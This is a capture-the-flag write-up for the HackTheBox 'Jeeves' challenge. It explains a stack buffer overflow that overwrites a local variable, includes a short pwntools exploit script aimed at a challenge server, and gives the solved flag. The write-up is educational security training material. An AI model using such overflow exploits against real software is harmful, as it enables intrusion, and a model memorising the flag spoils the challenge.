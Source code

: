 # Jeeves
> Write-up author: jon-brandy

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/dad07cae-9e78-4386-abc5-ae41bdbbd5e3)


## Lessons Learned:
1. Local Variable Overwrite.

## DESCRIPTION:
How are you doing, sir?

## STEPS:
1. First, unzip the `.zip` file given.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/209353724-037d0521-31f6-4b64-8b90-1ab691d4ce64.png)


2. Now check the file type.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/209353779-5395467e-52a7-4de3-92db-9b63fd8a992e.png)


3. Now, we know it's a binary file.
4. Let's check the binary's protection.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/209353854-cccbe427-5fe0-4cd1-afa4-b7463e3fa4d1.png)


5. Based on it, we know that we can do bufferoverflow concept.
6. Anyway let's run chmod so we can execute the binary file. Then execute the file.
7. Run the file in gdb, and paste 1024 cyclic pattern as the input.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/209354390-9bdf1805-d3a1-4b52-b4f3-f0b193e32f4f.png)


8. Got segmentation fault, now copy all characters from RBP.

![image](https://user-images.githubusercontent.com/70703371/209354570-ead7a0fe-c371-44d0-995a-4c9214cf4186.png)


9. And check the correct bytes to overflow the buffer by run `cylic -l`.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/209354843-ee59fa72-e273-4ac3-a51a-9b301354bddf.png)


10. Great! Now we know the correct bytes to overflow the buffer is 64 bytes, so we need to add 60 padding bytes.
11. Now let's decompile the file using ghidra and check the `main()` function.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/209355234-655d33ae-f4ff-48c7-a2b0-2bfc70c9e82e.png)


12. Based from the `main()` function, we need to overwrite the `local_c` values so to **0x1337bab3** so we can get the flag.
13. To solve this we can convert the hex in little-endian format -> \xb3\xba\x37\x13.
14. Then add them after the 60 bytes.
15. For this solution, i made a python script using pwntools.

> THE SCRIPT

```py
from pwn import *
import os

os.system('clear')
context.log_level = 'debug'
#sh = remote('68.183.47.198',31162) #68.183.47.198:31162
sh = process("nc")
sh.sendline("68.183.47.198 31162")
p = b'A' * 60
p += p64(322419379) # 0x1337bab3
#sh.recvuntil("? ")
sh.sendline(p)
sh.interactive()
```

> OUTPUT

![image](https://user-images.githubusercontent.com/70703371/209359846-75879f05-0888-475d-aeb6-0c2d07325684.png)


16. Got the flag!

## FLAG

```
HTB{w3lc0me_t0_lAnd_0f_pwn_&_pa1n!}
```

